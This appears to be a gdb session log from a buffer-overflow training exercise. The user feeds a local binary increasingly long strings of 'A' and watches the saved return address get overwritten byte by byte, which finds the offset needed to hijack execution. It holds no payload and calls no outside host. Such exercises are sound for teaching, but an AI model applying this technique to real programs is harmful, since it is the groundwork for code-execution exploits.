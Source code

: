 ```sh
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+11)")           
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+11)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+12)")           
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+12)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+13)")           
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+13)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000004141414141 in ?? ()

Program received signal SIGSEGV, Segmentation fault.
0x0000004141414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+14)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+14)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+15)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+15)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005ab in concat_arg ()
```
